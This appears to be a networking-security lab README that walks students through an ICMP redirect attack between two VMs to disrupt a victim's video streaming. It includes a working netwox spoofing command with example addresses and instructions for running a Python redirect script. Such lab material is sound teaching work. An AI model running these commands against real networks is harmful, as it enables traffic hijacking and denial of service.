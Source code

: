 ## ICMP Redirect Attack

### Background

An ICMP redirect attack involves sending ICMP redirect messages to a victim machine. These messages instruct the victim to use a different gateway (the attacker's machine) for reaching a particular destination.

### Requirement

In this lab, you will disrupt a victim machine's connection to a video streaming service.

### Setup

2 Linux VMs. VM1 as the victim; VM3 as the attacker. The 2 VMs reside in the same network. The following is the IP addresses for the VMs used in this README.

| VM  |  IP Address   |   Role   |
|-----|---------------|----------|
| VM1 |  10.0.2.4     |  victim  |
| VM3 |  10.0.2.6     | attacker |

### Preparation steps:

On the victim VM, enable ICMP redirect feature:

```console
sudo sysctl net.ipv4.conf.all.accept_redirects=1
sudo sysctl net.ipv4.conf.default.accept_redirects=1
```

Setting these two flags to 1 means that the victim client accepts ICMP redirects packets, which sometimes can provide performance benefits - although in this lab, such a feature is taken advantage by the attacker.
 
<!--

This attack only requires one netwox command, let's prepare the command first. This command is: sudo netwox 86 --device "ens33" --filter "src host victim_ip_address" --gw "attacker_ip_address" --src-ip "trusted_gateway_ip_address" --code 1

what this command does is: the attacker, mimicking the default gateway, sends an icmp redirect message to tell the victim: hey, please, going forward, use the attacker's ip address as your new gateway.

1. if the attacker's network interface card is not named "ens33", then change "ens33" to the network interface card's name.
2. replace "victim_ip_address" with your victim's IP address.
3. replace "attacker_ip_address" with your attacker's IP address.
4. find "trusted_gateway_ip_address" with netstat -r command. Following is an example, run netstat -r on the victim VM.

```console
[02/14/22]seed@VM:~$ netstat -r
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         172.16.77.2     0.0.0.0         UG        0 0          0 ens33
link-local      *               255.255.0.0     U         0 0          0 ens33
172.16.77.0     *               255.255.255.0   U         0 0          0 ens33
[02/14/22]seed@VM:~$ 
```

The above command says 172.16.77.2 is the default gateway, so that's the gateway the victim machine trusts. Therefore, let's assume the victim's ip address is 172.16.77.128, and the attacker's ip address is 172.16.77.129, then we should come up with this following command:

sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1

question: can you find out what "--code 1" means?

**troubleshooting**: if the netstat -r does not show the ip address of your gateway, you can use this other command:

```console
[05/23/22]seed@VM:~$ ip route show
default via 172.16.77.2 dev ens33 onlink 
142.250.0.0/16 dev tun0  scope link 
169.254.0.0/16 dev ens33  scope link  metric 1000 
172.16.77.0/24 dev ens33  proto kernel  scope link  src 172.16.77.128 
192.168.53.0/24 dev tun0  scope link 
192.168.53.0/24 dev tun0  proto kernel  scope link  src 192.168.53.5 
```

this command also shows, 172.16.77.2 is VM1's default gateway.

-->

### Attack steps:

<!-- #### Part 1

1. victim, run: 

```console
$ ping www.google.com
```

make sure your ping command works and you do get responses from google, otherwise this lab makes no sense.

this screenshot shows ping works:

![alt text](lab-icmp-ping-works.png "ping works at first")

if ping works, press ctrl-c to stop the ping command and move on to step 2.

2. attacker, run that attack command: 

```console
$ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
```

![alt text](lab-icmp-attack-command.png "launch the attack")

3. victim, run: 

```console
$ ping www.google.com
```

this time it may still succeed, or at least you will still get some responses like this:

![alt text](lab-icmp-ping-partially-works.png "ping only gets some reponses")

4: attacker, press ctrl-c to stop the attack command.

5: victim, run: 

```console
$ ping www.google.com
```

this time it should fail, thus it proves the attack is successful:

![alt text](lab-icmp-ping-fails.png "ping fails")

#### Part 2

the next two steps attempt a new attack which disrupts the victim's video streaming service:
-->

1. victim, opens firefox, watches some youtube video.

2. attacker, impersonates the default gateway, keeps sending ICMP redirect packets to the victim which instruct the victim to use a different gateway (the attacker's machine) for reaching its destination.  You can use this script to send the icmp redirect packets: [icmp_redirect](icmp_redirect.py), before you can run the script, change the following 4 lines to match with your settings.

```console
victim_ip = "10.0.2.4"
default_gateway_ip = "10.0.2.1"
attacker_ip = "10.0.2.6"
iface = "enp0s3"  # replace with your network interface name
```

**Note**: how to find the default gateway ip address in the victim VM and how to find the network interface name? Run this command in the victim VM:

```console
$ ip route
default via 10.0.2.1 dev enp0s3 proto dhcp metric 100 
10.0.2.0/24 dev enp0s3 proto kernel scope link src 10.0.2.4 metric 100 
169.254.0.0/16 dev enp0s3 scope link metric 1000 
172.17.0.0/16 dev docker0 proto kernel scope link src 172.17.0.1 linkdown 
```

In the above output, the ip address after the "default via" is the default gateway; here in this example, it is 10.0.2.1; and the string after the "dev" is the network interface name, in this example, it is "enp0s3".

3. run the script in the attacker VM:

```console
$ sudo python3 icmp_redirect.py
```

if successful, victim won't be able to watch the youtude video. The following two screenshots show before pressing enter and after pressing enter (to execute the attacking script):

before pressing enter:

![alt text](lab-icmp-youtube-before-enter.png "before pressing enter")

after pressing enter: 

![alt text](lab-icmp-youtube-after-enter.png "after pressing enter")

This second screenshot shows the attack is successful and this concludes this lab.

**Note**: due to the buffering effect, the video won't be stopped immediately, you may need to wait for a few seconds or maybe one minute until the buffered content has been played.
